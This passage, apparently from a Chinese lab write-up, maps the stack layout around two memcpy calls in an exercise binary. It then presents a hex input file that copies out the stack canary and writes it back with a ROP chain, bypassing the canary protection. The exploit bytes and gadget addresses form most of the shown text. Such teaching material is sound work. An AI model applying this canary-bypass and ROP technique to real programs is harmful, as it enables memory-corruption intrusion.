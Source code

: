 进一步阅读代码，我们可以得到第一次 `memcpy` 时，关键的几个寄存器和值各自的位置（从高地址向低地址排列，左侧偏移值相对栈顶而言）：

- （+0x190）`%rbp`，栈底
- （+0x188）金丝雀值
- （+0x108）`%rsi`，源地址
- （+0x100）`%rdx`，复制的长度
- （+0x000）`%rdi`，`%rsp`，栈顶、目标地址

类似地，得到第二次 `memcpy` 时，关键的几个寄存器和值各自的位置（从高地址向低地址排列，左侧偏移值相对栈顶而言）：

- （+0x190）`%rbp`，栈底
- （+0x188）金丝雀值
- （+0x108）`%rdi`，目标地址
- （+0x104）`%rdx`，复制的长度
- （+0x000）`%rsi`，`%rsp`，栈顶，源地址

于是我们可以开始构造输入值 `p6.txt`，通过控制两次复制的长度，以实现第一次复制时将金丝雀值复制下来，同时在第二次复制时，将金丝雀值连同我们注入的 ROP 攻击代码复制上去，从而实现绕过金丝雀值的保护：

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
8d 22 40 00 00 00 00 00 // phase5 的攻击代码起始地址
a4 21 40 00 00 00 00 00
bc 21 40 00 00 00 00 00
48 00 00 00 00 00 00 00
ad 22 40 00 00 00 00 00
ee 22 40 00 00 00 00 00
81 22 40 00 00 00 00 00
f9 21 40 00 00 00 00 00
a4 21 40 00 00 00 00 00
cd 1f 40 00 00 00 00 00
31 31 61 36 37 36 31 30
00 00 00 00 00 00 00 00 // phase5 的攻击代码结束地址
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
88 00 00 00 00 01 00 00 // 覆写 0x88 和 0x100 两个局部变量
```
